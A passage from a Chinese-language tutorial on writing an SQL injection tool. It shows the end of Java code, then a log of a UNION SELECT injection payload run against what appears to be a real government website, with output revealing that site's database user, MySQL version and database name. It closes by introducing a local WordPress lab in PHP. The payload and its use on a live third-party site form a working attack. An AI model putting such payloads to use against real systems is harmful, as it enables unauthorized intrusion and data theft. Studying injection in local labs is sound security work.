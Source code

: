 ```
        System.err.println("user:"+user);
        System.err.println("version:"+version);
        System.err.println("database:"+database);
    } 
```

代码执行的日志：

```
url:http://www.tchjbh.gov.cn/news_display.php
param:id=148-1+UnIon+SeleCt+concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]')%23
user:tchjbh@127.0.0.1
version:5.1.56-community
database:tchjbh 
```

### 0x02 模拟 SQL 注入分析注入工具原理

* * *

下面这个演示是针对想自己拓展上面写的 SQL 注入工具的同学。这次我才用的是 PHP 语言去弄清 SQL 注入工具的具体实现。数据库采用的是 wordpress 的结构，数据库结构如下,建议在本地先安装好 wordpress 任意版本：
